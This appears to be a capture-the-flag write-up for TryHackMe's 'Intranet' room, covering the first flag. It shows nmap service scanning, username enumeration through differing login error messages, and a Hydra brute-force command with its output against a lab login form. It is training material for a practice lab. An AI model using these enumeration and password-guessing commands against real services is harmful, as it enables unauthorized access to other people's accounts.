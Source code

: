 # THM - Intranet writeup

Link : https://tryhackme.com/room/securesolacodersintra

## Flag 1: go through login page

Let's start to enumerate services on the target.
```
$ nmap -sV 10.10.247.142
```
We can find
* Echo service on port 7
* FTP service on port 21
* SSH service on port 22
* Telnet service on port 23
* HTTP service on port 80
* HTTP service (again) on port 8080

Let's have a look at each.
* FTP: anonymous is not allowed.
* HTTP 80: nothing
* HTTP 8080: a login page.

Looking at the source code, there are low-hanging fruits : there is someone called anders, and an account devops.

Also, if we try to login with random password and login 
* devops@securesolacoders.no --> we have invalid password
* anders --> invalid **login** 
* anders@securesolacoders.no --> invalid **password**
* test@securesolacoders.no --> invalid **login** 
* admin@securesolacoders.no --> invalid **password**

We found a few usernames (anders, devops, admin).

Let's Hydra-te this.

With rockyou.txt, it takes forever... ok, we need to try something else.

Let's generate random passwords ([here](https://zzzteph.github.io/weakpass/generator/)) with keywords anders, senior, developer, devops, admin, securesolacoders, and Hydra-te again : there are bazillion of findings !

Having a deeper look at the website, we can see that some chars are forbidden (hence, the false positive findings): we need to remove
```
& " ' #
```
Let's go
```
$ cat passwords.txt| grep -vE "['#\"&]" > passwords.filtered  
$ hydra -L logins.txt -P passwords.filtered -s 8080 10.10.247.142 http-post-form "/login:username=^USER^@securesolacoders.no&password=^PASS^:Invalid"

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-19 18:33:09  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3000 login tries (l:3/p:1000), ~188 tries per task  
[DATA] attacking http-post-form://10.10.247.142:8080/login:username=^USER^@securesolacoders.no&password=^PASS^:Invalid  
[8080][http-post-form] host: 10.10.247.142 login: _REDACTED_ password: _REDACTED_
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-19 18:33:46
```
And this time, we got one ! Let's connect : we have a flag... and a 2FA validation.
